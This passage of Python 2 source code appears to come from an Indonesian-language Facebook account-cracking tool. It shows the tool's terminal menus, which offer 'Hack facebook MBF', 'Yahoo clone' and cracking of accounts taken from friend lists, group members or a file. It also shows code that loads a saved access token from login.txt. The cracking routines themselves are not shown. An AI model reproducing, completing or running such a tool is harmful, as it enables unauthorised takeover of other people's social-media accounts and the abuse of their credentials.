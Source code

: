 		keluar()
	os.system("clear")
	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Nama \033[1;91m: \033[1;92m"+nama+"\033[1;97m                  "
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;97m1.\x1b[1;93m Hack facebook MBF"
	print "\x1b[1;97m2.\x1b[1;93m Lihat daftar grup               "
	print "\x1b[1;97m3.\x1b[1;93m Informasi akun               "
	print "\x1b[1;97m4.\x1b[1;93m Yahoo clone               "
	print "\n\x1b[1;91m0.\x1b[1;91m Logout            "
	pilih()


def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":
		print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="2":
		grupsaya()
	elif unikers =="3":
		informasi()
	elif unikers =="4":
		yahoo()
	elif unikers =="0":
		os.system('clear')
		jalan('Menghapus token')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
		pilih()
		
		
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;97m1.\x1b[1;93m Crack dari daftar teman"
	print "\x1b[1;97m2.\x1b[1;93m Crack dari teman"
	print "\x1b[1;97m3.\x1b[1;93m Crack dari member grup"
	print "\x1b[1;97m4.\x1b[1;93m Crack dari file"
	print "\n\x1b[1;91m0.\x1b[1;91m Kembali"
	pilih_super()
